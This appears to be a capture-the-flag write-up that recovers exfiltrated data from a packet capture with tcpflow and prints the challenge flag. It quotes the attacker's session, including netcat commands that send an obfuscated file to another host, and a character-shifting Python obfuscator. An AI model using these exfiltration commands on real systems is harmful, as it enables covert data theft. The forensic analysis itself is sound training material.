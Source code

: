 '19CyberForce Anomaly 49 - Networking
===
[README.txt](./README.txt)
>Our wily hacker does want the snooping admins to see the data content that is being stolen and has used a few tricks to mix things up.
>
>From the pcap file, find the original data content that the hacker exfiltrated. 
>
>Flag is in the "cfc{}" format. 

There was only one file provided, which is [**sneak_exfil_clean.pcapng**](./sneak_exfil_clean.pcapng)
pcapng, which extends the simpler flormat pcap is a Wireshark file, therefore, there must be packages, which were captured over the network.
A tool that analizes network traffic and it captures data over TCP connections is tcpflow.

```
[pasheva]$ tcpflow -d2 -r sneak_exfil_clean.pcapng 
reportfilename: ./report.xml
tcpflow: retrying_open ::open(fn=010.000.000.010.51686-010.000.000.002.01337,oflag=xc2,mask:x1b6)=5
tcpflow: retrying_open ::open(fn=010.000.000.002.01337-010.000.000.010.51686,oflag=xc2,mask:x1b6)=6
tcpflow: retrying_open ::open(fn=010.000.000.010.41820-010.000.000.002.01338,oflag=xc2,mask:x1b6)=7
tcpflow: retrying_open ::open(fn=010.000.000.002.52962-010.000.000.010.01339,oflag=xc2,mask:x1b6)=7
tcpflow: Open FDs at end of processing:      2
tcpflow: demux.max_open_flows:               3
tcpflow: Flow map size at end of processing: 2
tcpflow: Flows seen:                         6
tcpflow: Total flows processed: 6
tcpflow: Total packets processed: 39
```
We do end up with 4 files dumped. We can futher analize what type of files those are.
```
[pasheva]]$ file 010.000.000.002.01337-010.000.000.010.51686
010.000.000.002.01337-010.000.000.010.51686: ASCII text

important.txt
important.txt
wannahide.py
s:  important.txt
my dude, file is ready for exfil
hidden_loot.txt
important.txt
wannahide.py
```

```
[pasheva]$ file 010.000.000.010.41820-010.000.000.002.01338
010.000.000.010.41820-010.000.000.002.01338: Python script, ASCII text executable


#!/usr/bin/python
import sys

ofilename = "hidden_loot.txt"

if len(sys.argv) < 2: 
	print "not enough args"
	exit()

ih = open(sys.argv[1], "r")
oh = open(ofilename, "w")

print "s: ", sys.argv[1]

with open(sys.argv[1]) as ih:
	for line in ih:
		for ch in line:
			oh.write(chr(ord(ch)-0xa))
print "my dude, file is ready for exfil" 

```
```
[pasheva]$ file 010.000.000.002.52962-010.000.000.010.01339
010.000.000.002.52962-010.000.000.010.01339: ASCII text, with no line terminators

Y\Yqm_h;i^WHaIjWhs
```

```
challB]$ file 010.000.000.010.51686-010.000.000.002.01337
010.000.000.010.51686-010.000.000.002.01337: ASCII text

ls
nc -l -p 1338 > wannahide.py
ls
python wannahide.py important.txt
ls
nc -w 3 1339 < hidden_loot.txt
nc -w 3 10.0.0.10 1339 < hidden_loot.txt
```
This porvide us with some information of the structure. We can also see that any input that has been lstened to on port 1338 has been redirected to the python file.
I renamed the string to [important.txt](./010.000.000.002.52962-010.000.000.010.01339) and the python file to [wannahide.py](./010.000.000.010.41820-010.000.000.002.01338)
```
[pasheva]$  python wannahide.py importnat.txt
s:  importnat.txt
Traceback (most recent call last):
  File "wannahide.py", line 19, in <module>
    oh.write(chr(ord(ch)-0xa))
ValueError: chr() arg not in range(0x110000)
```
Every character has been converted to ASCII value and shifted down by 10 so we can do the reverse and shift it up. 
```diff
-oh.write(chr(ord(ch)-0xa))
+oh.write(chr(ord(ch)+0xa))
```
Running again the python file get us the hidde_lost.txt file, which
has the [**flag**](./hidden_loot.txt):
>cfc{wirEshaRkStar}